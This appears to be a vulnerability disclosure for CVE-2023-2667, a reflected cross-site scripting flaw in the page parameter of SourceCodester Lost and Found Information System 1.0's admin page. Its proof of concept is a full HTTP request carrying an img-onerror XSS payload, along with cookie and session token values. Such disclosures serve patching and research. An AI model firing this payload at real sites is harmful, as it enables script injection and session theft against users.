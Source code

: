 # Exploit Title: OURCECODESTER LOST AND FOUND INFORMATION SYSTEM 1.0 ADMIN/ PAGE CROSS SITE SCRIPTING

A vulnerability was found in SourceCodester Lost and Found Information System 1.0 and classified as problematic. Affected by this issue is some unknown functionality of the file admin/. The manipulation of the argument page leads to cross site scripting
### Date: 
> 12 May 2023

### ID: CVE-2023-2667
### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [LOST AND FOUND INFORMATION SYSTEM](https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html)
### Version:
> v 1.0

# Tested On: Windows 10, XAMPP

### Affected Page:
> admin/?page=


### Description:
> A vulnerability has been found in SourceCodester Lost and Found Information System 1.0 and classified as problematic. Affected by this vulnerability is an unknown code of the file admin/. The manipulation of the argument page with an unknown input leads to a cross site scripting vulnerability.
### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: /php-lfis/admin/?page=PAYLOAD_XSS
```
GET /php-lfis/admin/?page="><img src=x onerror=alert(String.fromCharCode(88,83,83));> HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: remember_me_name=bMGFrQaFzDhuoLmztZCT; remember_me_pwd=YMSm3Q2wFDHaHLQ5eZPKc42oU7CaK8IlA%40q1; remember_me_lang=en; Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680329430; Hm_lvt_5320b69f4f1caa9328dfada73c8e6a75=1680329567; PowerBB_username=xss; PowerBB_password=8879f85d0170cba2a4328bbb5a457c6a; menu_contracted=false; __atuvc=1%7C16; PHPSESSID=kt5sfckl2e0fle94p3bdha9n45
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
2. Alert
![image info](./img/cve-2023-2667.PNG)
